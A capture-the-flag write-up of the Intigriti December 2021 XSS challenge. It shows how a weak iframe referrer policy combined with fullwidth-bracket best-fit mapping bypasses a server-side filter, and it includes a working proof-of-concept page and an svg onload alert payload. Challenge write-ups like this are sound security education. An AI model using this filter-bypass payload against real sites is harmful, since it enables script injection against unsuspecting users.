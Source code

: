 ```yaml
---
layout: single
title: Insecure Referrer Policy and Best-fit Mapping Transformations Lead to Arbitrary Code Execution
date: 2021-12-26
classes: wide
tags:
  - Intigriti
  - XSS
  - Challenge
  - E1u5iv3F0x
---
```


Exploit best-fit mapping transformations to execute arbitrary javascript code.

![share](/assets/images/intigriti/2021/12/share.jpg)

## TL;DR

The solution that I came up with consists of two flaws: a weak referrer policy and a best-fit mapping transformation. If you are not familiar with best-fit mapping, here is a brief description from [Netsparker](https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/unicode-transformation-best-fit-mapping/).

> A best-fit mapping occurs when one Unicode character is substituted by a similar looking character. This might happen, for example, if a Unicode string is converted to an ASCII string. Due to the vast differences in the amount of available characters, many encoding functions try to map complex Unicode characters to a similarly looking character in ASCII. Á becomes A, ò becomes o, and so on.

## Overview

The challenge seems simple at first glance. You click on a cracker until it breaks an reveals more elements.

![merry xmas](/assets/images/intigriti/2021/12/merry-xmas.png)

This is later skipped by adding a query parameter `open=true` (the value could be anything).

I was able to quickly identify one source of user input. It is the `payload` query parameter, which gets set after submitting a value inside the cracker’s hidden elements. The input is then reflected onto the page inside a heading.

Here an example result with the query parameters `?open=y&payload=example`:

![example payload](/assets/images/intigriti/2021/12/example-payload.png)

The next logical step is to try and inject HTML. However, it looks like there is a strong filter on the server-side. Everything between angle brackets is removed, including the brackets.

![filter](/assets/images/intigriti/2021/12/filter.png)

My next attempt is to use unicode characters. Sometimes the server side transforms unicode characters into regular ASCII. This is also known as the best-fit mapping, where unknown characters are matched with closest looking characters. I even found a great article on this subject. I chose to use a fullwidth [less-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1C) and [greater-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1E) signs.

Unfortunately, the result is not transformed into ASCII.

![best-fit mapping attempt](/assets/images/intigriti/2021/12/best-fit-mapping-attempt.png)

Here is where I am at a dead-end once again. Nothing came to mind that could work.

Fortunately, Intigriti’s tip came out and gave me a new idea!

![intigriti's tip](/assets/images/intigriti/2021/12/intigriti-tip.png)

I didn’t even notice that when adding a payload parameter that an HTML comment saying *“Referer: “* appears.

So, I made a quick exploit, in order to add value to the reflected referrer.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=example';
    </script>
</head>

<body>
    <iframe src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y"
        height="1000px" width="1000px"></iframe>
</body>

</html>
```

I used VS Code’s Live server extension to serve my PoC on port 5500. However, upon visiting `127.0.0.1:5500/index.html?payload=example` the result is missing the referrer’s path and is only showing the domain.

![example referrer payload](/assets/images/intigriti/2021/12/referrer-reflection.png)

I looked up information about iframe referrer policies and found [this page](https://www.w3schools.com/tags/att_iframe_referrerpolicy.asp). In the Attribute Values table there is an `unsafe-url` option which might just do the trick.

![referrerpolicy values](/assets/images/intigriti/2021/12/referrerpolicy-values.png)

Here is the result of adding `referrerpolicy=”unsafe-url”` to the frame.

![example referrer payload](/assets/images/intigriti/2021/12/example-referrer-payload.png)

Now, after injecting text, it’s time to try HTML as well. The payload is now changed to `127.0.0.1:5500/index.html?payload=--></h4><svg+onload=alert(document.domain)>`.

![encoded referrer payload](/assets/images/intigriti/2021/12/encoded-referrer-payload.png)

The brackets get encoded into HTML entities. This is troublesome since there is no way of injecting any kind of code with encoded brackets.

Here is where I go back to the best-fit mapping method. I modify my exploit to swap the angle bracket characters with the fullwidth signs from before.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=--></h4><svg+onload=alert(document.domain)>'
                .replaceAll("<", "\uFF1C")
                .replaceAll(">", "\uFF1E");
    </script>
</head>

<body>
    <iframe
        src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y" 
        referrerpolicy="unsafe-url"
        height="1000px" width="1000px"
    ></iframe>
</body>

</html>
```

The result is:

![injection](/assets/images/intigriti/2021/12/injection.png)

Which immediately triggers the alert upon visiting `http://127.0.0.1:5500/`.

![alert](/assets/images/intigriti/2021/12/alert.png)

Thanks for reading, I hope this was helpful!

